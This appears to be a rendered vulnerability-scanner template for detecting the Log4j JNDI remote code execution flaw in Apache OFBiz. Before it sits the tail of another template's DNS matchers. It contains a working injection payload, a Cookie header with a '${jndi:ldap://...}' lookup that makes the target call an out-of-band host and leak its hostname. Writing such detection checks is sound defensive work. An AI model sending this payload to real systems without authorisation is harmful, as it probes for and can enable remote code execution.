 ### Matchers

**Type - word**

- part - interactsh_protocol
- words
  1. dns

**Type - regex**

- part - interactsh_request
- regex
  1. ([a-zA-Z0-9\.\-]+)\.([a-z0-9]+)\.([a-z0-9]+)\.\w+

### Extractors

**Type - regex**

- part - interactsh_request
- group - 1
- regex
  1. ([a-zA-Z0-9\.\-]+)\.([a-z0-9]+)\.([a-z0-9]+)\.\w+

---

# Apache OFBiz - JNDI Remote Code Execution (Apache Log4j)

## Description

- Apache OFBiz is affected by a remote code execution vulnerability in the bundled Apache Log4j logging library. Apache Log4j is vulnerable due to insufficient protections on message lookup substitutions when dealing with user controlled input. A remote, unauthenticated attacker can exploit this, via a web request, to execute arbitrary code with the permission level of the running Java process.

- severity - critical
- tags - cve,cve2021,ofbiz,oast,log4j,rce,apache,jndi,kev

## Requests

### Step - 1

```
GET /webtools/control/main HTTP/1.1
Host: {{Hostname}}
Cookie: OFBiz.Visitor=${jndi:ldap://${hostName}.{{interactsh-url}}}

```

### Matchers

**Type - word**

- part - interactsh_protocol
- words
  1. dns
